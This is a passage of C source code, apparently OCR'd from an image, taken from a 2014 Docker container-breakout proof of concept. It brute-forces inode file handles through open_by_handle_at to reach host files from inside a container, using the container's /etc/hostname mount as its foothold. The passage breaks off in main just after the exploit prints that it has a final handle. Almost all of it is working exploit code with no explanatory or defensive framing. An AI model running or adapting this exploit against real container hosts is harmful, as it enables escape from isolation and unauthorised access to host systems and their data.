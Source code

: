 ```c
  if ((dir = fdopendir(fd)) == NULL)
    die("[-] fdopendir");
  for (;;) {
    de = readdir(dir);
    if (!de)
      break;
    fprintf(stderr, "[*] Found %s\n", de -> d_name);
    if (strncmp(de -> d_name, path, strlen(de -> d_name)) == 0) {
      fprintf(stderr, "[+] Match: %s ino=%d\n", de -> d_name, (int) de -> d_ino);
      ino = de -> d_ino;
      break;
    }
  }
  fprintf(stderr, "[*] Brute forcing remaining 32bit. This can take a while...\n");
  if (de) {
    for (uint32_t i = 0; i < 0xffffffff; ++i) {
      outh.handle_bytes = 8;
      outh.handle_type = 1;
      memcpy(outh.f_handle, & ino, sizeof(ino));
      memcpy(outh.f_handle + 4, & i, sizeof(i));
      if ((i % (1 << 20)) == 0)
        fprintf(stderr, "[*] (%s) Trying: 0x%08x\n", de -> d_name, i);
      if (open_by_handle_at(bfd, (struct file_handle * ) & outh, 0) > 0) {
        closedir(dir);
        close(fd);
        dump_handle( & outh);
        return find_handle(bfd, path, & outh, oh);
      }
    }
  }
  closedir(dir);
  close(fd);
  return 0;
}
int main(int argc, char * argv[]) {
  char buf[0x1000];
  int fd1, fd2;
  struct my_file_handle h;
  struct my_file_handle root_h = {
    .handle_bytes = 8,
    .handle_type = 1,
    .f_handle = {
      0x02,
      0,
      0,
      0,
      0,
      0,
      0,
      0
    }
  };
  fprintf(stderr, "[***] docker VMM-container breakout Po(C) 2014 [***]\n"
    "[***] The tea from the 90's kicks your sekurity again. [***]\n"
    "[***] If you have pending sec consulting, I'll happily [***]\n"
    "[***] forward to my friends who drink secury-tea too! [***]\n\n<enter>\n");
  read(0, buf, 1);
  // get a FS reference from something mounted in from outside
  if ((fd1 = open("/etc/hostname", O_RDONLY)) < 0)
    die("[-] open");
  if (find_handle(fd1, argv[1], & root_h, & h) <= 0)
    die("[-] Cannot find valid handle!");
  fprintf(stderr, "[!] Got a final handle!\n");
```